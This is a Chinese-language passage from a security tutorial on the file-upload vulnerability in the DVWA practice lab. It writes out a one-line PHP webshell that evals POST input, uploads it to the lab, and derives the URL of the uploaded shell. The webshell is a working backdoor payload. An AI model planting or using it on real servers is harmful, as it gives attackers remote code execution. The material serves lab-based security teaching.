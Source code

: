 <p><img src="picture/img (89).png" alt="Alt text"></p>
<p>我们先在桌面新建一个经典的恶意脚本文件，一句话php脚本木马，脚本名为<code>hack.php</code>，文件内容如下：</p>
<pre><code>＜?php @eval（$_POST["pass"]）;?&gt;
</code></pre><p>关于一句话木马脚本的使用，我们在以后的课程里会介绍。</p>
<p>我们尝试上传<code>hack.php</code>，点击<code>浏览</code>，选择我们桌面的<code>hack.php</code>，然后点击<code>Upload</code>上传：</p>
<p><img src="picture/img (90).png" alt="Alt text"></p>
<p>如上图，果然没有做任何的过滤，php类型文件被直接上传，并且返回的上传后的文件路径：</p>
<pre><code>../../hackable/uploads/hack.php
</code></pre><p>当前上传页面的URL为:</p>
<pre><code>http://www.test.test/dwva/vulnerabilities/upload/#
</code></pre><p>文件上传后的路径前有两个<code>../</code>，即相对于当前页，该文件的绝对路径要向前推两级，于是推断出<code>hack.php</code>的URL路径为：</p>
<pre><code>http://www.test.test/dwva/hackable/uploads/hack.php